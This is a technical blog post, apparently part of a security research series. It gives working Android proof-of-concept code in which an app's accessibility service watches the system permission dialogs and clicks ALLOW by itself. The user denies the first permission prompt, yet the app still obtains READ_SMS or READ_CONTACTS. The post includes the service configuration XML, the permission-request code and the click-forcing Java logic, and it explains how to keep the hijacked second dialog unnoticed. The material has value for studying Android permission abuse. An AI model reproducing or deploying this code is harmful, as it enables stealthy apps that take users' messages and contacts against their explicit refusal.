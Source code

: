 ## About Android Accessibility Service - Part 3

### [~$ cd ..](../)

### ~$ ls

* [How_an_Android_app_could_escalate_its_privileges.txt](./index)
* [How_an_Android_app_could_escalate_its_privileges_Part2.txt](./part2)
* How_an_Android_app_could_escalate_its_privileges_Part3.txt

### ~$ cat How_an_Android_app_could_escalate_its_privileges_Part3.txt

For this part, I changed the way the app obtains more permissions, making it stealthier. The trick here is to explicitly ask for at least two permissions, let the user
choose for the first one, and force the click on the second one. If the device is fast enough, we cannot really see that a second window has spawned and has been immediately closed.

The only suspicious thing is that popups are numbered, and the user will only see clearly the first one, if there are only two. Actually, I tried with three permissions, but on my slow
emulator, only the second one was "skipped", which is clearly suspicious.

### Configuration

The Manifest remains the same, I still ask for **READ_SMS** and **READ_CONTACTS**. However, the configuration file is modified, because we don't need to listen
for events coming from our app or Settings, and we try to catch `click` events. Furthemore, I added the flag `flagReportViewIds`:

> ```xml
><accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
>	android:accessibilityEventTypes="typeViewClicked"
>	android:packageNames="com.google.android.packageinstaller"
>	android:accessibilityFeedbackType="feedbackAllMask"
>	android:notificationTimeout="100"
>	android:canRetrieveWindowContent="true"
>	android:accessibilityFlags="flagReportViewIds"/>  
> ```

### Main activity

In the main activity, as usual, we try to detect if accessibility service is enabled. In this example, we only have to call `ActivityCompat.requestPermissions`
( `setContentView` doesn't need to be in the `else` statement actually)

> ```java
>@Override
>	protected void onCreate(Bundle savedInstanceState) {
>		super.onCreate(savedInstanceState);
>		String[] perms = getRequestedPermissions(this);
>		if (perms != null && perms.length != 0 && isAccessibilityServiceOn()) {
>			ActivityCompat.requestPermissions(this, perms, 1);
>		}else
>			setContentView(R.layout.activity_main);
>	}
> ```

and `getRequestedPermissions` returns permissions asked in the Manifest:

> ```
>private String[] getRequestedPermissions(){
>	PackageInfo info = null;
>	try {
>		info = getPackageManager().getPackageInfo(getPackageName(), PackageManager.GET_PERMISSIONS);
>	} catch (PackageManager.NameNotFoundException e) {
>		e.printStackTrace();
>	}
>	return info == null ? null : info.requestedPermissions;
>}
> ```

Then, the routine `ActivityCompat.requestPermissions(this, perms, 1)` will show one popup for each permission (that's the reason why they are numbered). The first parameter
is the asking activity (this one), and the last integer is an identifier, useless here since we don't use `onRequestPermissionsResult`. 

### The accessibility service

Once again, the code is simpler, because we don't need to browse through settings and click on certain items. The idea is very simple: for each permission,
the package manager will display a dialog box, with a short message, a picture, and two buttons: ALLOW and DENY. We try to capture the click on one of these two
buttons, and force the click on ALLOW. Then, this click will affect the next popup, and the next permission will be granted. Since we cannot ensure that the language
of the device is English, we use views' identifiers to know where to click, and which widget has been clicked.

The two interesting widgets have these ids:

> ```java
>private static final String DENY_BUTTON = "com.android.packageinstaller:id/permission_deny_button";
>private static final String ALLOW_BUTTON = "com.android.packageinstaller:id/permission_allow_button"; 
> ```

_That is the reason why I used the flag `flagReportViewIds`._

In `onAccessibilityEvent`, we don't need to filter, since there is only one registered type of event on one app. Once again, the view is recursively scanned,
and `true` is returned if the button has been clicked:

> ```java
>@Override
>public void onAccessibilityEvent(AccessibilityEvent accessibilityEvent) {
>	parseView(accessibilityEvent.getSource());
>}
>
>private boolean parseView(AccessibilityNodeInfo node){
>	if (node == null)
>		return false;
>	for(int i = 0; i< node.getChildCount(); i++){
>		if (parseView(node.getChild(i)))
>			return true;
>	}
>	if (node.getText() != null){
>		if (getRootInActiveWindow() != null && node.getViewIdResourceName() != null &&
>			(node.getViewIdResourceName().equalsIgnoreCase(DENY_BUTTON) || node.getViewIdResourceName().equalsIgnoreCase(ALLOW_BUTTON))){
>				
>			List<AccessibilityNodeInfo> allow = getRootInActiveWindow().findAccessibilityNodeInfosByViewId(ALLOW_BUTTON);
>			if (allow != null && allow.size() != 0) {
>				allow.get(0).performAction(AccessibilityNodeInfo.ACTION_CLICK);
>			}
>		}
>	}
>	return false;
>}
> ``` 

### So what ?

In the video, you can see that **READ_CONTACTS** has been granted, whereas **READ_SMS** has been explicitly denied by the user. Since my emulator is really slow,
we can see that a second window has spawned with the second permission. The idea is then to put first in the Manifest a "useless" permission, and the expected one.

Two things are quite interesting in this example:
* we don't care about the language of the device
* if the user doesn't pay attention to the message "1 of xxx" in the dialog box, and if the device is not too slow, the second window could be unnoticed. In the
previous examples, it was clearly visible that the app was trying to do bad things, because it was not fast enough. Here, we let the user decide, and it makes a
real difference.

Video:

[![video3_poc](video3.png)](https://youtu.be/vs057e_NE9U)

